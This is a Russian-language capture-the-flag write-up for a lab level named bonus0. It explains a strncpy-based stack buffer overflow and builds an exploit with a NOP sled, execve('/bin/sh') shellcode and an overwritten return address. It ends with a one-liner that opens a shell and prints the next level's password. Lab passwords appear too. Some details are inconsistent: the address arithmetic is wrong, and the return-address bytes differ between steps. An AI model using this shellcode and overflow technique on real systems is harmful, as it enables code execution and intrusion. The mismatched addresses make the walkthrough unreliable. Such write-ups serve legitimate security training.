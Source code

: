 ## HowTo
```
su bonus0
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

### Инструменты:
- Ida Pro + hex rays
- peda (gdb + patterns)

### Анализ и ход решения
1. Запуск `./bonus0` требует ввода двух аргументов, после чего оба аргумента выводится в виде конкатенированной строки.
Передачи длинных строк приводит в `segmentation fault`

2. Используем IdaPro, дизасемблируем и получаем си-псевдокод. Находим две интересующие нас функции, вызываемые из `main`
```
char *__cdecl pp(char *dest)
{
  char src; // [esp+28h] [ebp-30h]
  char v3; // [esp+3Ch] [ebp-1Ch]

  p(&src, " - ");
  p(&v3, " - ");
  strcpy(dest, &src);
  *(_WORD *)&dest[strlen(dest)] = unk_80486A4;
  return strcat(dest, &v3);
}
```
```
char *__cdecl p(char *dest, char *s)
{
  char buf; // [esp+10h] [ebp-1008h]

  puts(s);
  read(0, &buf, 0x1000u);
  *strchr(&buf, 10) = 0;
  return strncpy(dest, &buf, 0x14u);
}
```
3. Анализ функций
- `pp()` дважды вызывает `p()` для чтения аргументов
- `p()` читает `4096 байт`, после чего возвращает `20 байт` из прочитанного буфера используя `strncpy`
- `strncpy` возвращает не терминированную строку в случае, если `src > dest`
```
Из мана strncpy
"If the source string has a size greater than that specified in parameter, then the produced string will not be terminated by null ASCII code (character '\0')."
```
- в конце `pp()` использует `strcpy` для возврата - копируется буффер, возвращаемый из `strncpy` - он может быть не терминирован
- в случае не терминированной строки 1-й аргумент может быть продлен по стеку. Это приводит к переполненю буфера, перезаписи адрес возврата `EIP` и `Segmentation Fault`

### Логика взлома
положить shell code в 1-й аргумент, используя переполнение, затем подменить адрес возврата `eip` 2-го аргумента адресом нашего `shell code`

4. Находим адрес `eip` - используем `Buffer Overflow EIP Offset String Generator` 

https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

```
payload для 1-го аргумента
01234567890123456789
```
```
payload для 2-го аргумента
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9...
```
```
eip address
0x41336141
```
С помощью генератора находим `offset == 9`

5. Находим адрес буфера, куда нам нужно положить `shell code`
```
> gdb ./bonus0
> disass p
...
=> 0x080484d0 <+28>:	lea    eax,[ebp-0x1008]
...

> b *p+28

> run
Breakpoint 2, 0x080484d0 in p ()
> x $ebp-0x1008
0xffffb9b0:	0x00000000
```

6. Начало буфера - `0xffffb9b0`. Мы хотим перезаписать буфер с некоторым смещением и положить в него наш код. Эксперементально - пробуем `100 байт`. 
Старт буффера `0xffffb9b0 + 100 = 0xbfffe6a4`

7. Находим `shell code` http://shell-storm.org/shellcode/files/shellcode-827.php
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

8. Собираем payload для каждого из аргументов
#### Аргумент 1
- NOP bytes sequence `0x90`
- Собираем большой слайс с NOP-instruction, дополняя его `shell code`
```
'\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```
#### Аргумент 2
- смещение до `EIP (9) -> 'A' * 9`
- адрес в слайсе NOP-инструкций, за которым следует `shell-code = 0xbfffe6a4 -> '\xa4\xe6\xff\xdf'` (`4` байта)
- дополнение 7 байт до размера копируемого буфера 20 байт - `'A' * 7`
```
'A' * 9 + '\xa4\xe6\xff\xdf' + 'A' * 7
```
9. Итоговый payload для двух агрументов
```
(python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('A' * 9 + '\xa4\xe6\xff\xbf' + 'A' * 7)"; cat) | ~/bonus0

whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
